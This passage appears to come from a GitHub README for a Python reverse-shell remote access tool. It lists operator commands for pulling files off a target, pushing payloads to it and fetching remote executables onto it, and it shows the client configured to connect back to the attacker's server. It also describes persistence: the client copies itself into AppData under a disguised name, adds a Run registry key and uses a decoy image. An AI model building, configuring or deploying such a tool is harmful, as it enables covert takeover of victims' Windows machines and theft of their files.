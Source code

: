 2. Select option `1` to start listening for connections

3. Wait for client connections (displays connection info when client connects)

### Available Commands

| Command | Description | Example |
|---------|-------------|---------|
| `client_help` | Display available commands | `client_help` |
| `download <file>` | Download file from target | `download C:\Users\file.txt` |
| `upload <file>` | Upload file to target | `upload payload.exe` |
| `get <url>` | Download file from URL to target | `get http://example.com/file.exe` |
| `check` | Check admin privileges | `check` |
| `start <program>` | Start a program | `start notepad.exe` |
| `cd <directory>` | Change directory | `cd C:\Windows` |
| `exit` | Close connection | `exit` |

### System Commands
Any standard Windows command can be executed:
```bash
dir                    # List directory contents
whoami                 # Show current user
systeminfo             # Display system information
netstat -an            # Show network connections
tasklist               # List running processes
```

## 🔧 Configuration

### Server Configuration
- **IP Address**: Set your server's IP address when starting
- **Port**: Choose an available port (default: 4444)
- **Connection Timeout**: Modify in server.py if needed

### Client Configuration
Edit `reverse.py` line 162 to set your server details:
```python
server('YOUR_SERVER_IP', YOUR_PORT)
```

### Persistence Configuration
The client automatically:
- Copies itself to `%APPDATA%\windows32.exe`
- Adds registry entry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- Creates flag file to prevent repeated decoy image display
